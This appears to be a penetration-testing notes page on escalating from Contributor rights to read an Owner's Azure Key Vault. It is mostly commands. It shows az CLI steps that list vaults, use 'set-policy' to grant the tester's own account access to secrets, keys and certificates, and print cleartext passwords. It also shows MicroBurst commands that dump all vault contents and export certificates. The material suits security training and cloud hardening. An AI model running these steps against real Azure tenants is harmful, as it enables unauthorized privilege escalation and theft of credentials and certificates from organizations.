








# Azure Key Vault

## Azure Key Vault

Data may require additional credentials. Azure Key Vault can store all of them and also, maybe SSL 

The goal is to escalate Privileges as a Contributor to be able to read Owner's key vault.

* for testing purpose, 2 main groups :
  * SuperUsers = global admin
  * ContribUsers = reader user



Login with your "contribusers" account \(which is readers in azure AD\)

```csharp
PS C:\Users\b3v1l\Desktop> az login
```



And confirm successful login



* List Key Vault 

```csharp
az keyvault list --query '[].name' --output tsv
```

* Try to retrieve data \(no access, permission denied\)

```csharp
az keyvault secret list --vault-name SuperSecretVault-kninsu --query '[].id' --output tsv
```



* Set permissions \(abusing contributor access\):

```csharp
az keyvault set-policy --name SuperSecretVault-kninsu --upn redacted@Redacted.onmicrosoft.com --secret-permissions get list --key-permissions get list --storage-permissions get list --certificate-permissions get list
```



* Try to retrieve URI Key Vault \(again\)



* Retrieve cleartext password

```csharp
az keyvault secret show --id <URI from last command> | ConvertFrom-Json
```



### Powerzure microburst

* Automated process for password

```csharp
PS C:\Users\b3v1l\Desktop\tools\MicroBurst> Get-AllKeyVaultContents
```

* SSL/TLS Certificats

```csharp
Get-AzPasswords -ExportCerts Y
```




